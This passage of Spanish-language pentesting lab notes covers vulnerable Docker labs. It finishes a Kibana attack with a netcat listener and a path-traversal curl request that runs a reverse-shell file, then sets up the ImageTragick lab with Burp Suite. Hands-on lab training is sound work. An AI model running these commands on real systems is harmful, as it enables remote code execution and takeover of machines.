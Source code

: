 Ahora debemos ponernos en escucha por el puerto "443" con **``nc``** que fue el que colocamos previamente con los parámetros **"``-nlvp``"**

- **``nc -nlvp 443``**

Y volver a hacer un ``curl`` pero modificando el directorio de la URL para que el servidor de "``Kibana``" ejecute el archivo de reverse.js.

- **``curl -s -X GET "https://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/reverse.js"``**

Si todo va bien, en la terminal que estamos en escucha debería darnos la SHELL y ya tendríamos el control de la maquina.

Podemos utilizar el comando **``script /dev/null -c bash``** para que se nos otorgue una BASH.

-----
# Despliegue de máquinas vulnerables con Docker-Compose (2/2)

Trabajaremos con https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick

Esto lo que hará será montar un campo de subida de archivos que se va a encargar de procesar contenido multimedia. Por ejemplo le podemos subir fotos, GIF o lo que corresponda, y por detrás está **``imagemagick``** corriendo que **se encarga de procesar imágenes y contenidos multimedia**. Dependiendo de la versión posee vulnerabilidades. 

Hay una vulnerabilidad que se conoce como **``IMAGETRAGICK``** que lo que te permite es crear un archivo especialmente diseñado con un contenido malicioso, que al momento de procesamiento del contenido multimedia que hace imagemagick, nos va a permitir inyectar un comando en la maquina. Este archivo que vamos a subir es algo similar al ejemplo que se da en GITHUB.

Una vez despleguemos el contenedor de Imagemagick de la misma forma que en la unidad anterior, entraremos al **localhost:8080** para verificar la composición de la web.
En este caso **utilizaremos el Burpsuite con Foxy Proxy enlazados entre si**, algo a tener en cuenta es que ==por defecto el puerto que utiliza el contenedor de imagemagick es el "8080", el mismo que el del Burpsuite, por ende cambiaremos el puerto del proxy del Burpsuite al "8081"==

Una vez que estemos en el dominio de **localhost:8080** procederemos a activar con Burpsuite el **intercept** en la pestaña Proxy y el **Foxy Proxy**. A continuación crearemos un archivo de texto **"``prueba.txt``"** y le pondremos dentro **"Hola"** a modo de traza, buscando así intentar subirlo a la web y ver que nos detecta el Burpsuite. Una vez que consigamos respuestas en la pestaña de Proxy en formato RAW, debemos apretar **``CTRL+R``** para poder enviar la información recibida al **Repeater**.

**La pestaña Repeater es una herramienta que se utiliza para realizar repeticiones controladas de solicitudes HTTP para analizar y modificar fácilmente los parámetros de la solicitud y observar cómo afectan al comportamiento de la aplicación.**

Una vez **dentro de la pestaña de Repeater podemos apretar en la opción donde dice "Send" para poder enviar la solicitud y ver la respuesta del servidor** del lado derecho en formatos diferentes, el que mas vamos a usar es el PRETTY o el RAW.
Por lo que podemos observar es que los archivos con extensión .txt no le agradan a la web.

Antes de explotar el ImageTragick, vamos a hacer un **``CTRL+I``** para emitir todo al **Intruder**.
